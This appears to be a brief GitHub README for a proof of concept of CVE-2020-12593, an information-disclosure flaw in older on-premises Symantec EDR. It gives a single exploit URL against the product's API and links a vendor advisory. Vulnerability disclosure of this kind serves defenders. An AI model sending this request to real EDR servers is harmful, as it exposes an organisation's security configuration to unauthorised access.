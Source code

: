# CVE-2020-12593
CVE-2020-12593 POC

Symantec EDR on-prem version prior to "4.5" is prone to an information disclosure vulnerability via the following URL :

```
https://@IP_EDR/atpapi/v2/policies/blacklist<
```

### Reference 

* https://support.broadcom.com/security-advisory/content/security-advisories/Symantec-Endpoint-Detection-Response-Security-Update/SYMSA16562
